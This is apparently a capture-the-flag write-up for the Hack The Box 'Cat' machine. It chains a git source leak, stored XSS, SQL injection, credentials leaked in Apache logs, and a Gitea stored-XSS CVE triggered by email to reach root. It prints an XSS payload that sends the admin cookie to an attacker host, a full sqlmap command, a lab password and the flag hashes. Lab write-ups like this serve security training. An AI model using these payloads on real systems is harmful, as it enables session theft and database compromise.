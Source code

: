 # 🐾 Cat — Hack The Box

**Difficulty:** Medium  
**IP:** `10.129.234.87`  
**OS:** Linux  
**Category:** Web / SQLi / XSS / PrivEsc  
**Status:** ✅ Done

---

## 🧭 Overview

- Git leak → XSS for admin cookie → SQLi for creds
- Web creds leaked via Apache logs
- Gitea (internal) → CVE-2024-6886 → stored XSS for file exfil
- Local mail + SWAKS abuse for XSS trigger
- Final privesc using extracted password

---

## 📡 Enumeration

```bash
nmap cat.htb
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

- `.git/` folder discovered → used `git-dumper` to recover full PHP source
- `view_cat.php` has stored XSS in username (reflected in DOM)
- XSS payload delivers stolen admin cookie to attacker via listener

```html
<img src=1 onerror=this.src="http://10.10.xx.xx/?ccc="+encodeURIComponent(document.cookie)>
```

- Logged in as admin via stolen cookie

---

## 🐱 SQL Injection

- Found in `accept_cat.php`: vulnerable `catName` param

```php
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
```

- SQLite DB revealed via `config.php` → file-based `/databases/cat.db`
- Exploited with `sqlmap` to extract user hashes

```bash
sqlmap -u "http://cat.htb/accept_cat.php" --cookie="PHPSESSID=..." --data="catId=1&catName=123" -p catName --dbms=SQLite --level=5
```

---

## 🧠 Credential Reuse & Log Leakage

- Cracked Rosa’s hash → logged in and read `/var/log/apache2/access.log`
- Found Axel’s creds in GET request:

```bash
cat /var/log/apache2/access.log | grep axel
GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q
```

---

## 🚪 Root Access (Port Forward + XSS)

- Port 3000 internally → Gitea service
- Forwarded with SSH:

```bash
ssh rosa@cat.htb -L 3000:127.0.0.1:3000
```

- Found Gitea 1.22.0 → vulnerable to stored XSS via CVE-2024-6886
- Discovered hint in `/var/mail/axel`: send an email to jobert to trigger XSS

```bash
swaks --to "jobert@localhost" --from "axel@localhost" --header "Click"   --body "http://localhost:3000/axel/xss" --server localhost
```

- XSS reads contents of restricted `index.php` → password inside
- Used to escalate to root

---

## 🏁 Flags

```bash
cat user.txt
56726c7c53163f6b2cddd30da152a32d

cat root.txt
b6503818144bada3cd5c62210f1427c7
```

---

## 🔍 Lessons Learned

- Git leaks can expose the entire source code & config
- Stored XSS is still highly viable when paired with internal mail or auto-fetch
- Apache logs may reveal sensitive credentials if login forms are GET-based
- Privilege escalation via chained misconfigs + creative exploitation